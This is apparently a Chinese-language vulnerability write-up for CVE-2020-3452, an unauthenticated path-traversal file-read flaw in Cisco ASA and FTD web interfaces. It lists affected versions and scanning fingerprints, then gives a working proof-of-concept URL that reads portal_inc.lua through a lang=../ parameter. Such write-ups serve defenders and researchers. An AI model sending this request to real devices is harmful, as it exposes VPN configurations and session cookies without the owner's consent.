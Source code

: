 # Cisco ASA设备 任意文件读取漏洞 CVE-2020-3452

## 漏洞描述

Cisco Adaptive Security Appliance (ASA) 防火墙设备以及Cisco Firepower Threat Defense (FTD)设备的WEB管理界面存在未授权的目录穿越漏洞和远程任意文件读取漏洞，允许未经身份验证的远程攻击者进行目录遍历攻击并读取目标系统上的敏感文件，此漏洞不能用于获取对ASA或FTD系统文件或底层操作系统(OS)文件的访问，所以只能读取web系统目录的文件，比如webvpn的配置文件、书签、网络cookies、部分网络内容和超文本传输协议网址等信息。

## 影响版本

<a-checkbox checked>Cisco ASA设备</a-checkbox></br>



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/cisco-1-20220314135401585.png)



<a-checkbox checked>Cisco FTD设备</a-checkbox></br>



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/cisco-2-20220314135403447.png)



## 网络测绘

<a-checkbox checked>/+CSCOE+/</a-checkbox></br>

<a-checkbox checked>Cisco-ASA</a-checkbox></br>



## 漏洞复现

验证POC

```plain
https://xxx.xxx.xxx.xxx/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../
```

会下载得到一个文件



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/cisco-4.png)



## 